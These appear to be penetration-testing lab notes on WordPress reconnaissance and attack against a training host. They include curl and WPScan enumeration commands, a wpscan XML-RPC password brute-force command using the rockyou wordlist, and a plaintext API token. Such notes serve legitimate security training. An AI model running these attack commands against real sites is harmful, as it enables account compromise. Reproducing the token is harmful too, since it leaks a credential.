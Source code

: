 #### Enumeration with cURL
```Shell
curl -s http://blog.inlanefreight.local | grep WordPress
```
Can help us confirm that WordPress is in use and footprint the version number, which should be noted

```Shell
curl -s http://blog.inlanefreight.local/ | grep themes
```
Provides information on the theme, which may be vulnerable

```Shell
curl -s http://blog.inlanefreight.local/ | grep plugins
```
Provides information on plugins, which may be vulnerable

#### Enumerating Users
- On login page, entering a valid user results in a different message than an invalid user

### WPScan

#### Install [WPScan](https://wpscan.com/)
```Shell
gem install wpscan
```

#### Obtain an API Token from WPVulnDB
Create an account and copy the API token from the users page. This token can then be supplied to wpscan using the `--api-token` parameter

**API Token**: 0qSWF2tHdeezcVNms7KTJRci1xA4KIi7GznJrl7LscI

#### Normal enumeration scan against a WordPress website with `WPScan`
```Shell
wpscan --url http://blog.inlanefreight.local --enumerate --api-token dEOFB<SNIP>
```
The default number of threads used is 5. However, this value can be changed using the `-t` flag.

***LAB Notes:*

WP Sitemap Page is the installed plugin
The version is 1.6.4 and can be found at: `http://blog.inlanefreight.local/wp-content/plugins/wp-sitemap-page/readme.txt`


## Attacking WordPress

### Login Bruteforce

#### Login Bruteforce attack with `wpscan`
```Shell
wpscan --password-attack xmlrpc -t 20 -U john -P /usr/share/wordlists/rockyou.txt --url http://blog.inlanefreight.local
```
Runs wpscan and uses it to perform a password attack (`--password-attack`) against the specified url and references a word list (`/usr/share/wordlists/rockyou.txt`). The `-U` argument takes in a list of users or a file containing user names. This applies to the -P passwords option as well. The -t flag is the number of threads which we can adjust up or down depending.

